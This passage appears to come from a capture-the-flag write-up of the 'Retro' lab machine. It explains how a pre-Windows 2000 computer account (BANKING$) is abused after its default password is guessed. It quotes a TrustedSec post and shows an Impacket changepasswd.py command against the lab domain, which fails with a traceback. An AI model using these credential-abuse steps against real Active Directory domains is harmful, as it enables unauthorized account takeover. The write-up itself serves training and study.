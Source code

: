 That’s a good indication that it’s the correct password. In fact, the TrustedSec post addresses this:

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet.

I’ll show two ways to get around this error - via password change and via Kerberos authentication.

#### via Password Change

The TrustedSec post goes on to say that to use this account, I’ll just need to change the password. I can’t do it over SMB (as it won’t accept the pre-2000 auth), but I can use one of several different protocols:

> 1. The NetUserChangePassword protocol
> 2. The NetUserSetInfo protocol
> 3. The Kerberos change-password protocol (IETF Internet Draft Draft-ietf-cat-kerb-chg-password-02.txt) - port 464
> 4. Kerberos set-password protocol (IETF Internet Draft Draft-ietf-cat-kerberos-set-passwd-00.txt) - port 464
> 5. Lightweight Directory Access Protocol (LDAP) write-password attribute (if 128-bit Secure Sockets Layer (SSL) is used)
> 6. XACT-SMB for pre-Microsoft Windows NT (LAN Manager) compatibility

The posts links to [this pull request into Impacket](https://github.com/fortra/impacket/pull/1304) which is closed saying that `changepasswd.py` can handle it.

If I try this with just the target and the new password, it crashes with the same error mentioned in the post:

```

oxdf@hacky$ changepasswd.py -newpass 0xdf0xdf 'retro.vl/BANKING$:banking@dc.retro.vl'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
                                                                    
[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
Traceback (most recent call last):  
  File "/home/oxdf/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/smbconnection.py", line 280, in login
    return self._SMBConnection.login(user, password, domain, lmhash, nthash)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/oxdf/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/smb3.py", line 1091, in login
    if packet.isValidAnswer(STATUS_SUCCESS):
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^                                                                                             
  File "/home/oxdf/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/smb3structs.py", line 460, in isValidAnswer
    raise smb3.SessionError(self['Status'], self)
impacket.smb3.SessionError: SMB SessionError: STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT(The account used is a computer account. Use your global user account or local user account to access this server.)

```
